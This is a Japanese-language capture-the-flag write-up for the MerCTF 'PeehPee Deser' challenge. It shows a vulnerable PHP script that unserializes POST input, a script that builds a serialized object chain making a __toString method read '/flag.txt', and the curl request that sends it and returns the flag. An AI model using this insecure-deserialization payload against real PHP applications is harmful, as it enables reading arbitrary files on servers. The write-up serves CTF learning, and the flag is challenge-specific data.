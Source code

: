 # PeehPee Deser:MerCTF:410pts
Let's continue with the legendary language: PeehPee! Can you get the flag now ?  
**URL:** [http://peehpee.merctf.com/](http://peehpee.merctf.com/)  

# Solution
URLが与えられるので、アクセスするとソースが表示された。  
![site.png](site/site.png)  
以下の通りであった。  
```php
<?php
// flag.txt is in the root directory
class Get
{
    public function __Tostring()
    {
        return file_get_contents($this->fname);
    }
}

class User
{
    public $user;
    public $human;
    public function hello(){
        if ($this->human){
            echo $this->user . " is human\n";
        } else {
            echo $this->user . " is not a human, a robot?";
        }
    }
}

if ($_SERVER['REQUEST_METHOD'] == 'GET')
{
    highlight_file(__FILE__);
    die();
}
else{
    $obj = unserialize($_POST['info']);
    $obj->hello();
}
?>
```
`unserialize($_POST['info']);`から安全でないデシリアライズだ。  
以下のようにexploit.phpとして`/flag.txt`をデシリアライズした際に表示するものを作る。  
```php
<?php

class Get
{
    public function __Tostring()
    {
        return file_get_contents($this->fname);
    }
}

class User
{
    public $user;
    public $human;
    public function hello(){
        if ($this->human){
            echo $this->user . " is human\n";
        } else {
            echo $this->user . " is not a human, a robot?";
        }
    }
}

$obj_get = new Get();
$obj_user = new User();
$obj_get->fname = "/flag.txt";
$obj_user->user = $obj_get;

$exploit = serialize($obj_user);

echo $exploit;

?>
```
実行する。  
```bash
$ php -f exploit.php
O:4:"User":2:{s:4:"user";O:3:"Get":1:{s:5:"fname";s:9:"/flag.txt";}s:5:"human";N;}
```
これを投げつけてやればよい。  
```bash
$ curl -X POST 'http://peehpee.merctf.com/' -d 'info=O:4:"User":2:{s:4:"user";O:3:"Get":1:{s:5:"fname";s:9:"/flag.txt";}s:5:"human";N;}'
Merctf{PeeHpEe_DEseriaLiZation_MastEr:)}
 is not a human, a robot?
```
flagが得られた。  

## Merctf{PeeHpEe_DEseriaLiZation_MastEr:)}